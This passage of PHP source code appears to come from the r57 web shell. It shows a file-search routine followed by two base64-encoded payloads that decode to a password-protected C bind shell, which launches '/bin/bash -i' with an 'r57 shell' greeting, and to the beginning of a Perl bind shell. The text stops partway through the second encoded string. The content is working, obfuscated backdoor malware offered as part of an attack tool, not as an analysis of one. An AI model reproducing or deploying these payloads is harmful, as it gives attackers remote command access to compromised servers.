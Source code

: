       {
        $this-&gt;FileMatchesCount[$filename] = 0;
        $FileStrings = @file($filename) or @next;
        for($a=0;$a&lt;@count($FileStrings);$a++)
        {
          $count = 0;
          $CurString = $FileStrings[$a];
          $CurString = @Trim($CurString);
          $CurString = @strip_tags($CurString);
          $aa = '';
          if(($count = @preg_match_all($pattern,$CurString,$aa)))
          {
            $CurString = @preg_replace($pattern,"&lt;SPAN style='color: #990000;'&gt;&lt;b&gt;\\1&lt;/b&gt;&lt;/SPAN&gt;",$CurString);
            $this-&gt;ResultFiles[$filename][$a+1] = $CurString;
            $this-&gt;MatchesCount += $count;
            $this-&gt;FileMatchesCount[$filename] += $count;
          }
        }
      }
      $this-&gt;TimeTotal = @round(getmicrotime() - $this-&gt;TimeStart,4);
    }
  }
  function getmicrotime()
  {
    list($usec,$sec) = @explode(" ",@microtime());
    return ((float)$usec + (float)$sec);
  }
$port_bind_bd_c="I2luY2x1ZGUgPHN0ZGlvLmg+DQojaW5jbHVkZSA8c3RyaW5nLmg+DQojaW5jbHVkZSA8c3lzL3R5cGVzLmg+DQojaW5jbHVkZS
A8c3lzL3NvY2tldC5oPg0KI2luY2x1ZGUgPG5ldGluZXQvaW4uaD4NCiNpbmNsdWRlIDxlcnJuby5oPg0KaW50IG1haW4oYXJnYyxhcmd2KQ0KaW50I
GFyZ2M7DQpjaGFyICoqYXJndjsNCnsgIA0KIGludCBzb2NrZmQsIG5ld2ZkOw0KIGNoYXIgYnVmWzMwXTsNCiBzdHJ1Y3Qgc29ja2FkZHJfaW4gcmVt
b3RlOw0KIGlmKGZvcmsoKSA9PSAwKSB7IA0KIHJlbW90ZS5zaW5fZmFtaWx5ID0gQUZfSU5FVDsNCiByZW1vdGUuc2luX3BvcnQgPSBodG9ucyhhdG9
pKGFyZ3ZbMV0pKTsNCiByZW1vdGUuc2luX2FkZHIuc19hZGRyID0gaHRvbmwoSU5BRERSX0FOWSk7IA0KIHNvY2tmZCA9IHNvY2tldChBRl9JTkVULF
NPQ0tfU1RSRUFNLDApOw0KIGlmKCFzb2NrZmQpIHBlcnJvcigic29ja2V0IGVycm9yIik7DQogYmluZChzb2NrZmQsIChzdHJ1Y3Qgc29ja2FkZHIgK
ikmcmVtb3RlLCAweDEwKTsNCiBsaXN0ZW4oc29ja2ZkLCA1KTsNCiB3aGlsZSgxKQ0KICB7DQogICBuZXdmZD1hY2NlcHQoc29ja2ZkLDAsMCk7DQog
ICBkdXAyKG5ld2ZkLDApOw0KICAgZHVwMihuZXdmZCwxKTsNCiAgIGR1cDIobmV3ZmQsMik7DQogICB3cml0ZShuZXdmZCwiUGFzc3dvcmQ6IiwxMCk
7DQogICByZWFkKG5ld2ZkLGJ1ZixzaXplb2YoYnVmKSk7DQogICBpZiAoIWNocGFzcyhhcmd2WzJdLGJ1ZikpDQogICBzeXN0ZW0oImVjaG8gd2VsY2
9tZSB0byByNTcgc2hlbGwgJiYgL2Jpbi9iYXNoIC1pIik7DQogICBlbHNlDQogICBmcHJpbnRmKHN0ZGVyciwiU29ycnkiKTsNCiAgIGNsb3NlKG5ld
2ZkKTsNCiAgfQ0KIH0NCn0NCmludCBjaHBhc3MoY2hhciAqYmFzZSwgY2hhciAqZW50ZXJlZCkgew0KaW50IGk7DQpmb3IoaT0wO2k8c3RybGVuKGVu
dGVyZWQpO2krKykgDQp7DQppZihlbnRlcmVkW2ldID09ICdcbicpDQplbnRlcmVkW2ldID0gJ1wwJzsgDQppZihlbnRlcmVkW2ldID09ICdccicpDQp
lbnRlcmVkW2ldID0gJ1wwJzsNCn0NCmlmICghc3RyY21wKGJhc2UsZW50ZXJlZCkpDQpyZXR1cm4gMDsNCn0=";
$port_bind_bd_pl="IyEvdXNyL2Jpbi9wZXJsDQokU0hFTEw9Ii9iaW4vYmFzaCAtaSI7DQppZiAoQEFSR1YgPCAxKSB7IGV4aXQoMSk7IH0NCiRMS
VNURU5fUE9SVD0kQVJHVlswXTsNCnVzZSBTb2NrZXQ7DQokcHJvdG9jb2w9Z2V0cHJvdG9ieW5hbWUoJ3RjcCcpOw0Kc29ja2V0KFMsJlBGX0lORVQs
JlNPQ0tfU1RSRUFNLCRwcm90b2NvbCkgfHwgZGllICJDYW50IGNyZWF0ZSBzb2NrZXRcbiI7DQpzZXRzb2Nrb3B0KFMsU09MX1NPQ0tFVCxTT19SRVV
TRUFERFIsMSk7DQpiaW5kKFMsc29ja2FkZHJfaW4oJExJU1RFTl9QT1JULElOQUREUl9BTlkpKSB8fCBkaWUgIkNhbnQgb3BlbiBwb3J0XG4iOw0KbG
lzdGVuKFMsMykgfHwgZGllICJDYW50IGxpc3RlbiBwb3J0XG4iOw0Kd2hpbGUoMSkNCnsNCmFjY2VwdChDT05OLFMpOw0KaWYoISgkcGlkPWZvcmspK